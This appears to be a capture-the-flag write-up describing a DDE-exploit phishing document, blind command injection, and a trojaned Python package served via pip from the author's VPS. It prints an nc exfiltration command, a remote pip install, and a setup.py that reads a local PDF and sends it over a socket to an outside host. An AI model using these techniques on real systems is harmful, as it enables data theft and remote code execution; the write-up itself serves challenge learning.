 Early on in the challenge, the EWA and EMI systems had some reliabilty issues.
Using the DDE exploit it took a while to get any command execution to work.
Any attempt to run a more complicated command would fail.

I wasn't sure if my commands were failing due to quoting or escapting issues or
even how to tell.  Eventually it was determined that even a previously known
working =dir | nc host port= command was failing almsot every time.  Any
experiment I could come up with was tainted by the lack of reliability on the
backend.  Not only was it a blind command injection exploit, but if an attempt
failed I had no way of knowing why.  I needed to run something I KNEW would
work that would also confirm it had been executed.

I was able to use =dir= and =nc= to determine that python was installed, and I
was able to run =python -V=.  Once I knew I could run python and pass it
arguments, I ran {{{abbr(the standard python package installation tool, pip)}}}

#+BEGIN_SRC
python -m pip install https://my.vps.domain/test.tar.gz
#+END_SRC

A minute later, I got a hit for test.tar.gz!  The benefit of this method is
that the command itself does not require any special characters that may need
escaping.  There are no quotes or pipes or backslahes to worry about.  The fact
that =pip= will initially request the file from my server also meant I knew the
phish+dde exploit worked.  I could use this method as a solid base to run
further experiments.  Once the =pip= command was worked out, the docx file did
not need to be changed between runs.

With =pip= working, it was a simple matter of putting together a trojaned
setup.py in the style of [[https://twitter.com/JustinAzoff/status/881163562739277824][previous shenanigans seen in the wild]]

The first trojaned package was written by hand:

#+BEGIN_SRC python
# setup.py
from distutils.core import setup
setup(name='upload_doc',
      version='1.2',
)
#hax

try:
    import base64
    import socket
    with open("C:/GreatBookPage7.pdf", "rb") as f:
        document = f.read()
    encoded = base64.encodestring(document)

    s=socket.socket()
    s.connect(('my.vps.domain',44665))
    s.send(encoded)
    s.close()
except Exception as e:
    print("oops")
    print(e)
#+END_SRC

I then ran

#+BEGIN_SRC
python setup.py sdist
#+END_SRC

to build the upload_doc-1.2.tar.gz tarball.  By copying this file to my vps,
and having pip install it, it would run my python code.  Unfortunately EWA/EMI
was having a lot of issues at this time, and it took almost 2 days before I was
able to see this work.  Fortunately, because I was now using a known good docx
file, I knew the problem was not on my end.

The trojanpkg.py module automates this by building a tarball in memory based on
an arbitrary injected code block.  This enables the destination address to be
templated in on the fly, instead of hardcoded in the package.  This enabled
other members of my team to run the exploit code without having to edit the
source to match their environment.

The trojanpkgweb.py module builds on top of trojanpkg.py to start up a web
server that dynamically serves up a trojaned package for any url.
